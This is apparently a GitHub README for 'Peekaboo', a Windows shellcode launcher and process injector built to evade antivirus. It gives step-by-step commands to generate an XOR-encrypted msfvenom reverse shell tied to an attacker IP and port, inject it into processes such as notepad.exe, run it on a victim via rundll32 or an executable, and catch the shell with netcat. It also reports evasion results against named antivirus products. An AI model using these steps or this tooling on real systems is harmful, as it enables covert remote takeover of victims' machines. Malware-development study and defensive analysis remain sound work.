 # Peekaboo

Simple undetectable shellcode and code injector launcher example. Inspired by RTO malware development course.

## Main logic

XOR encryption and decryption for functions call and main payload - `msfvenom` reverse shell as example.

## Usage
## 1. DLL
### on attacker machine

check your IP:
```bash
ip a
```

![attacker machine IP](./screenshots/1.png?raw=true)

run python script with flags:
```bash
python3 peekaboo.py -l 192.168.1.64 -p 4444
```

![run python script](./screenshots/2.png?raw=true)

### then on victim machine (windows 10 x64):
run on powershell or cmd promt:
```cmd
rundll32 .\peekaboo.dll, fcPxxUxbQWtknoIZQxehCd
```

![run on victim machine](./screenshots/3.png?raw=true)

### check on attacker machine:
check your netcat listener:

![check netcat listener](./screenshots/4.png?raw=true)

example:
![final](./screenshots/5.png?raw=true)

## 2.Injector
### on attacker machine:
check attacker ip:
```bash
ip a
```

![check IP](./screenshots/6.png?raw=true)

run python script on linux (for example process `notepad.exe`):
```bash
python3 peekaboo-inj.py -l 10.9.1.6 -p 4444 -e notepad.exe
```

![encrypting](./screenshots/7.png?raw=true)

compile in VS - windows machine x64:
```cmd
.\compile-inj.bat
```

![compile in attacker windows x64](./screenshots/8.png?raw=true)

### then on victim machine (windows x64):
```cmd
.\peekaboo.exe
```

or click

![run on victim machine](./screenshots/9.png?raw=true)

### check on attacker machine:
check your netcat listener:

![check netcat listener](./screenshots/10.png?raw=true)

## 3. UPDATE: Compile injector on kali linux
run python script on linux (for example process `notepad.exe`):
```bash
python3 peekaboo-inj.py -l 10.10.88.57 -p 4444 -e notepad.exe
```

![encrypting and compile](./screenshots/12.png?raw=true)

### then on victim machine (windows 10 x64):
```cmd
.\peekaboo.exe
```

### check on attacker machine:
check your netcat listener:

![check netcat listener](./screenshots/13.png?raw=true)

## Issues.
Tested on:
1. Attacker machines: Kali linux 2020.1, Windows 10 x64
2. Victim machine: Windows 7 x64, Windows 10 x64
3. Payload: windows x64 reverse shell from msfvenom
4. AV Engines: Kaspersky, Windows Defender, Norton Antivirus Plus

# Virus Total result:
02 september 2021

![virustotal](./screenshots/11.png?raw=true)

[https://www.virustotal.com/gui/file/c930b9aeab693d36c68e7bcf6353c7515b8fffc8f9a9233e49e90da49ab5d470/detection](https://www.virustotal.com/gui/file/c930b9aeab693d36c68e7bcf6353c7515b8fffc8f9a9233e49e90da49ab5d470/detection)

## TODO
- [x] Compile injector in Kali linux
- [x] XOR + AES [aes branch](https://github.com/cocomelonc/peekaboo/tree/aes)
- [ ] Implement custom variations of `GetProcAddress` and `GetModuleHandle` functions
- [ ] Replace msfvenom shell to custom undetectable

## Attention
This tool is a Proof of Concept and is for Educational Purposes Only!!! Author takes no responsibility of any damage you cause

## License
[MIT](https://choosealicense.com/licenses/mit/)
